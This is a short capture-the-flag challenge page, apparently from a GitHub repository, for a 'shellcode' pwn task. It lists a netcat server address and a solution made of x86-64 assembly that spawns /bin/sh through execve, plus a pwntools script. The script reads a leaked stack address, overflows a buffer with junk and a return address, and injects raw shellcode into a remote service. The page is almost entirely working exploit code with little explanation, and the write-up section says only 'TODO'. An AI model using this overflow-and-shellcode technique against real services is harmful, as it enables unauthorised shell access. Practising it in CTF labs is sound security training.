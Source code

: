 #### Goals
 * Try to find the flag

#### Server Address
 * nc pwn.sniperoj.com 20005

#### Solution
```asm
global _start
	_start:
		xor rdi, rdi
		xor rsi, rsi
		xor rdx, rdx
		xor rax, rax
		push rax
		; 68 73 2f 2f 6e 69 62 2f
		mov rbx, 68732f2f6e69622fH
		push rbx
		mov rdi, rsp
		mov al, 59
		syscall
```
```python
#!/usr/bin/env python

from pwn import *

#Io = process("./shellcode")
Io = remote("123.207.114.37", 30001)

Io.readline()
addr_data = Io.readline()
addr = int(addr_data.split("[")[1].split("]")[0][2:], 16)
Io.readline()

junk = "A" * 24
shellcode = "\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05"
shellcode_addr = p64(addr + len(junk) + 8)
payload = junk + shellcode_addr + shellcode

Io.send(payload)

Io.interactive()
```

#### Writeups
 * TODO

